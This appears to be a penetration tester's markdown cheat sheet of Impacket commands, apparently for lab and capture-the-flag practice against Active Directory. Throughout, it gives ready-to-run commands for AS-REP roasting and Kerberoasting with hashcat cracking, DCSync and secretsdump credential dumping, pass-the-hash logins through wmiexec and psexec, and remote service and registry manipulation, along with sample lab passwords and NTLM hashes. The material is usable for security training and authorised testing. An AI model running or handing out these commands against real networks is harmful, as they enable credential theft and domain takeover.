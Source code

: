 	#### Almost every Impacket scripts follows the same option syntax
```
authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use
                        the domain part (FQDN) specified in the target
                        parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
```

### Impacket GetNPUsers
Check if there are accounts with the "*Do not require Kerberos preauthentication*" enabled
`impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete`

Crack the retrieved hash: `sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

## Impacket GetUsersSPNs (Kerberoasting)
Retrieve Kerberoastable accounts `sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete` -> `sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
## Impacket Secretsdump (DCsync)
With valid credentials and right privileges the jeffadmin user can dump the dave user creds through DCsync attack
```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
### Impacket WMIExec
Connect as the local administrator with the NTML hash; SMB hash to be turned on. 
```bash
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

### Impacket LookUpSID
Check for known usernames on flight.htb domain
```
impacket-lookupsid flight.htb/svc_apache:"S@Ss!K@*t13"@flight.htb
```

#### Get TGT ticket
```
ntpdate frizzdc.frizz.htb    
impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb    
export KRB5CCNAME=f.frizzle.ccache  
ssh f.frizzle@frizz.htb -K
impacket-psexec -no-pass -k administrator@dc01.poseidon.yzx
```


```
# Performs various techniques to dump secrets from the remote machine without 
# executing any agent there. 

# For SAM and LSA Secrets (including cached creds) 
# we try to read as much as we can from the registry and then we save the hives 
# in the target system (%SYSTEMROOT%\Temp directory) and read the rest of the data 
# from there. 

# For DIT files, we dump NTLM hashes, Plaintext credentials (if available)
# and Kerberos keys using the DL_DRSGetNCChanges() method. It can also dump NTDS.dit 
# via vssadmin executed with the smbexec/wmiexec approach. The script initiates the 
# services required for its working if they are not available (e.g. 
# Remote Registry, even if it is disabled). 

# After the work is done, things are restored to the original state.

# Extract NTLM hashes with local files
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# Remote extraction
secretsdump.py -just-dc-ntlm domain/user:password@IP
secretsdump.py -just-dc-ntlm domain/user:@IP-hashes LMHASH:NTHASH

```

#### SMB / MSRPC 
```
# A generic SMB client that will let you list shares and files, rename,
# upload and download files and create and delete directories
smbclient.py domain/user:password@IP
smbclient.py -dc-ip 10.10.2.1 -target-ip 10.10.2.3 domain/user:password

# This script will connect against a target (or list of targets) machine/s and gather 
# the OS architecture type installed by (ab)using a documented MSRPC feature.
getArch.py -target 10.10.2.2

# This script will dump the list of RPC endpoints and string bindings registered at the 
# target. It will also try to match them with a list of well known endpoints.
rpcdump.py domain/user:password@IP
rpcdump.py -dc-ip 10.10.2.1 -target-ip 10.10.2.3 domain/user:password

# This script will bind to the target's MGMT interface to get a list of interface IDs.
ifmap.py 10.10.20.1 135
ifmap.py 10.10.20.1 49154

# This binds to the given hostname:port and MSRPC interface.
# Then, it tries to call each of the first 256 operation numbers in turn
# and reports the outcome of each call
# Need to get interfaces, for example with ifmap.py
# usage: opdump.py hostname port interface version
opdump.py 10.10.1.1 135 135 99FCFEC4-5260-101B-BBCB-00AA0021347A 0.0

# An application that communicates with the Security Account Manager Remote interface
# from the MSRPC suite. It lists system user accounts, available resource shares 
# and other sensitive information exported through this service.
./samrdump.py SERVER/Administrator:T00r@192.168.1.140

# This script can be used to manipulate Windows services through the [MS-SCMR] MSRPC 
# Interface. It supports start, stop, delete, status, config, list, create and change.
services.py SERVER/Administrator:T00r@192.168.1.140 {start,stop,delete,status,config,list,create,change}

# Gets a list of the sessions opened at the remote hosts
netview.py domain/user:password -target 192.168.10.2
netview.py domain/user:password -target 192.168.10.2 -user Administrator

# Remote registry manipulation tool through the [MS-RRP] MSRPC Interface.
# The idea is to provide similar functionality as the REG.EXE Windows utility.
reg.py domain/user:password@IP query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
reg.py -dc-ip 10.10.2.1 -target-ip 10.10.2.3 domain/user:password

# A Windows SID brute forcer example through [MS-LSAT] MSRPC Interface
# aiming at finding remote users/groups.
lookupsid.py domain/user:password@IP
lookupsid.py -dc-ip 10.10.2.1 -target-ip 10.10.2.3 domain/user:password

```

```
# This script will gather data about the domain's users and their corresponding email addresses.
GetADUsers.py domain/user:password@IP

# Simple MQTT example aimed at playing with different login options.
mqtt_check.py domain/user:password@IP
mqtt_check.py domain/user:password@IP -ssl

# [MS-RDPBCGR] and [MS-CREDSSP] partial implementation just to reach CredSSP auth.
# This example test whether an account is valid on the target host.
rdp_check.py domain/user:password@IP
rdp_check.py domain/user@IP -hashes LMHASH:NTHASH

# Simple packet sniffer that uses a raw socket to listen for packets 
# in transit corresponding to the specified protocols.
sniffer.py {tcp, udp, icmp}

# Simple ICMP ping that uses the ICMP echo and echo-reply packets to check the status of a host.
ping.py <src-ip> <dst-ip>

# Simple IPv6 ICMP ping that uses the ICMP echo and echo-reply packets to check the status of a host.
ping6.py <src-ip> <dst-ip>
```

## PSEXEC

Connect through empty LMHash and NTML hash
`python3 ./psexec.py itwk04admin@192.168.119.226 -hashes 00000000000000000000000000000000:445414c16b5689513d4ad8234391aacf`

### GetNPUsers